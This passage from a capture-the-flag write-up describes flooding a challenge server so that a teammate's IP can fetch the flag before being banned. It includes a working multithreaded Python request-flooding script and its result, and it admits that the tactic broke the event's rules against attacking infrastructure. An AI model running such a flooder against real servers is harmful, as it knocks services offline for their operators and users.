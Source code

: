 > Can you be faster enough?  

The naive approach is to simply flood the server with requests on one computer, and use another computer with a seperate IP to request the flag, hoping that the server will lag enough that their IP takes >5 seconds to be banned.

I coded up a horrendous partially GPT generated python script, with threads to continuesly ping the server to see if this was even viable.

{{< code language="python" title="not_ddos.py" id="5" expand="Show" collapse="Hide" isCollapsed="false" >}}
import requests
import threading
import time


def flood():
    for i in range(10000000):
        resp = requests.get("http://10.0.14.2:8080/flag")
        #print(resp.text)
    print("ended")

# Number of threads to run
num_threads = 3000

# Create and start the threads
threads = []
for i in range(num_threads):
    thread = threading.Thread(target=flood, name=f"Thread-{i+1}")
    thread.start()
    threads.append(thread)
    print(i)

# Wait for all threads to finish
for thread in threads:
    thread.join()

print("All threads have completed.")
{{< /code >}}

Surprisingly, it actually worked! With a teammate's computer, they requested the `/flag` endpoint with their not-yet-banned IP, and got this message:

```
Validating your request [1/5], please wait 🐸🐸🐸
Validating your request [2/5], please wait 🐸🐸🐸
Sad 🐸 You are banned 😢
```

We got to `2/5`, meaning it lagged the server for around 1 second! Clearly, we just needed a few more requests.

However, it was at this point when my team started trying to persuade me against DDoS'ing the challenge infra, as I took their computers away for more manpower. To be fair, it was in the rules that attacking infra and brute force attacks were not allowed.
